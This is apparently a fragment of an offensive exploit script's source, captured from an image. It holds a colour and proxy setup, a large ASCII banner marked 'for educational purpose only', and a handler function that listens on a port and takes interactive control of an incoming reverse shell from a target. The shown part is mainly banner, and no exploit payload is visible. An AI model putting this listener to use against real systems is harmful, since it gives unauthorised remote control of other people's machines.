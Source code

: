 ```python
YELLOW = "\033[1;93m"
BLUE = "\033[1;94m"
GREEN = "\033[1;92m"
END = "\033[1;m "

## Set proxy [OPTIONAL]
#proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

#### ========= FUNCTION =========

## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

## Set the handler
def handler(lport,target):
    print(f"[+] Starting handler on {lport} [+]")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[+] Receiving connection the {target} [+]")
    tn.sock = conn
    print("[+] Habemus Shell! [+]")
    tn.interact()
```
